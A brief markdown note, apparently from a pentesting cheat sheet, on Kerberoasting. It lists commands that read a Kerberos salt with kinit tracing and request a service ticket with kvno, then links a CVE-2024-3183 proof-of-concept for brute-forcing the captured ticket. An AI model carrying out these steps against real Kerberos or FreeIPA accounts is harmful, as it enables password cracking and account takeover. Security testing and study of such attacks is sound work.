

# Kerberoasting

#### Get salt

`printf "%b" "0\n" | KRB5_TRACE=/dev/stdout kinit admin | grep salt`&#x20;

#### Get tgs

`kvno admin`&#x20;

Then we can export from pcap dump  

#### Brute

[https://github.com/Cyxow/CVE-2024-3183-POC](https://github.com/Cyxow/CVE-2024-3183-POC/tree/main)
